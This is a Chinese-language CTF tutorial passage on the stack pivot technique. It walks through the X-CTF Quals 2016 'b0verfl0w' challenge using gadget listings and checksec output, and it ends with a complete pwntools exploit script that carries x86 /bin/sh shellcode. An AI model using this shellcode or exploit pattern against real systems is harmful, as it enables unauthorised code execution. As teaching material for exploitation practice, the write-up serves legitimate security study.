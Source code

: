 #  其它栈溢出技巧

# stack privot

## 原理

stack privot，正如它所描述的，该技巧就是劫持栈指针指向攻击者所能控制的内存处。然后再在相应的位置进行ROP。一般来说，我们可能在以下情况需要使用stack privot

- 可以控制的栈溢出的字节数较少，难以构造较长的ROP链
- 开启了PIE保护，栈地址未知，我们可以将栈劫持到已知的区域。
- 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

此外，利用stack privot有以下几个要求

- 可以控制程序执行流。

- 可以控制sp指针。一般来说，控制栈指针会使用ROP，常见的控制栈指针的gadgets一般是

  ```assembly
  pop rsp/esp
  ```

  当然，还会有一些其它的姿势。比如说libc_csu_init中的gadgets，我们通过偏移就可以得到控制rsp指针。上面的是正常的，下面的是偏移的。

  ```assembly
  gef➤  x/7i 0x000000000040061a
     0x40061a <__libc_csu_init+90>:	pop    rbx
     0x40061b <__libc_csu_init+91>:	pop    rbp
     0x40061c <__libc_csu_init+92>:	pop    r12
     0x40061e <__libc_csu_init+94>:	pop    r13
     0x400620 <__libc_csu_init+96>:	pop    r14
     0x400622 <__libc_csu_init+98>:	pop    r15
     0x400624 <__libc_csu_init+100>:	ret    
  gef➤  x/7i 0x000000000040061d
     0x40061d <__libc_csu_init+93>:	pop    rsp
     0x40061e <__libc_csu_init+94>:	pop    r13
     0x400620 <__libc_csu_init+96>:	pop    r14
     0x400622 <__libc_csu_init+98>:	pop    r15
     0x400624 <__libc_csu_init+100>:	ret
  ```

  此外，还有更加高级的fake frame。


- 存在可以控制内容的内存，一般有如下
  - bss段。由于进程按页分配内存，分配给bss段的内存大小至少一个页(4k,0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且bss段分配的内存页拥有读写权限。
  - heap。但是这个需要我们能够泄露堆地址。

## 示例

### 例1

这里我们以**X-CTF Quals 2016 - b0verfl0w**为例，进行介绍。首先，查看程序的安全保护，如下

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序为32位，也没有开启NX保护，下面我们来找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack privot。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode并执行。基本利用思路如下

- 利用栈溢出布置shellcode
- 控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

```assembly
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到esp的gadgets。那么我们可以布置payload如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们payload中的最后一部分改如何设置esp呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```assembly
sub 0x28,esp
jmp esp
```

所以最后的exp如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

### 例2-转移堆

待。

## 题目

- EkoPartyCTF 2016 fuckzing-exploit-200

# fake frame
